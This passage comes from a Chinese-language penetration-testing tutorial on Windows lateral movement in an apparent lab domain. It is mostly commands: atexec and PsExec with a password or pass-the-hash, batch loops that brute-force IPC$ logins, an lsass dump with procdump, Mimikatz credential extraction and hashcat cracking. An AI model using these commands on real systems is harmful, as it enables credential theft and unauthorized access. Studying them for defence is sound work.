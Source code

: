 ## 2.2使用第三方工具包impacket中atexec.exe

Atexec.exe test/administrator:zxcvbnm123@192.168.202.148 “whoami”  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-ac99c37c9de55ef1af0b10026f00b44f.png)  
Atexec.exe -hashes :fac5d668099409cb6fa223a32ea493b6 test/administrator@192.168.202.148 “whoami”  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-9f5f3cf0ae2a6e975cb6993033974dea.png)

## 2.3结合批处理利用：

已知密码和用户批量连接ip:  
FOR /F %%i in (ips.txt) do net use \\%%i\\ipc$ “password” /user:test\\administrator  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-01204f4ecf6931b7232dd12783f8da78.png)  
已知用户和ip批量连接密码：  
FOR /F %%i in (pass.txt) do net use \\192.168.202.148\\ipc$ “%%i” /user:test\\administrator  
已知用户和ip批量连接hash：  
FOR /F %%i in (hash.txt) do atexec.exe -hashes :“%%i” test/administrator@192.168.202.148 “whoami”  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-9a01e0251b4ff86f5fcb22daf4645013.png)

# 三、利用hash进行横向移动

在windows server 2012以上的版本默认关闭wdiget，攻击者无法在内存中获取明文密码。  
在windows server 2012以下的版本如果安装了KB2871997补丁，也无法获取明文密码。

## 3.1获取系统hash

Procdump.exe -accepteula -ma lsass.exe lsass.dmp(需要管理员权限)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-3ae46694fa26126c5b14c3a282b54eb2.png)  
利用Mimikatzm相关命令获取dmp中的hash：  
Privilege::debug  
Sekurlsa::minidump lsass.dmp  
Sekurlsa::logonPasswords full  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-8e163a4cf6bd4c9db8915a45561283f5.png)  
可以通过hashcat爆破hash值，获得对应的明文密码：  
Hashcat -a 0 -m 1000 hashfile passfile

## 3.2通过明文或hash利用SMB服务进行横向移动

官方Psexec第一种利用方法：可以先有ipc链接，再用psexec运行相应的程序：  
Net use \\192.168.202.148\\ipc$ zxcvbnm123 /user:test\\Administrator  
Psexec \\192.168.202.148 -accepteula -s cmd  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-52a65708245e1ab5aa756ac9aa64297e.png)  
官方Psexec第二种利用方法：不用建立ipc连接，直接使用密码或hash进行传递  
Psexec \\192.168.202.148 -u Administrator -p zxcvbnm123 -s cmd  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-f96f01ae9fbe233281b1acbf550e2a88.png)  
PsExec -hashes :fac5d668099409cb6fa223a32ea493b6 test.com/Administrator@192.168.202.148 "whoami" (官方执行不了)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-891a68431ba1bd85309c2d1d82661672.png)
